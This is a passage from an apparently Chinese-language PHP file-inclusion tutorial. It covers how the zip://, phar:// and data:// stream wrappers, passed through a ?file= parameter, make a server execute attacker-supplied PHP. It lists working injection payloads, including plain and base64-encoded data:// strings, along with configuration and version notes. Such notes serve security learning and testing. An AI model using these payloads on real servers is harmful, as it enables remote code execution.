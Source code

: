 **语法**
`zip://[压缩包绝对路径]#[压缩包内文件]`

**实例**
```
?file=zip://D:\zip.jpg%23phpinfo.txt

phpinfo.txt文件会被当作PHP文件执行。
```
**注意**
 - 只需要是zip的压缩包即可，后缀名可以任意更改。
 - 压缩包路径必须是绝对路径
 - %23是因为get请求如果不把#进行url编码，#后面的参数会被忽略

相同的类型的还有zlib://和bzip2://

**问题遗留和记录**
 - 经过测试`5.2.17`中可以实现zip
 - `5.3.29-nts`版本用相对路径也能实现（无聊试了一下还真可以），`5.2.17`和`5.4.45`均不可以，有趣的现象




<br>

### phar://
phar://有点类似zip://同样可以导致 `任意代码执行`。

**php.ini要求：**
 - `allow_url_fopen=Off/On`
 - `allow_url_include=Off/On`
 - `php版本 >= 5.3`

**实例**
```
?file=phar://zip.jpg/phpinfo.txt
?file=phar://D:\zip.jpg/phpinfo.txt

phpinfo.txt文件会被当作PHP文件执行。
```
**注意**
 - 压缩包可以是zip或者phar的压缩包，后缀名可以任意更改(rar，z7，bz2均无效)
 - phar://中相对路径和绝对路径都可以使用

<br>

### data://
data:// 同样类似与php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作`php`文件执行。从而导致 `任意代码执行`。

**php.ini要求：**
 - `allow_url_fopen=On`
 - `allow_url_include=On`
 - `php版本 >= 5.2`

**实例**
```
?file=data://text/plain,<?php phpinfo();
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
?file=data:text/plain,<?php phpinfo();
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

以上用法，代码都会被执行
```
<br>
<br>

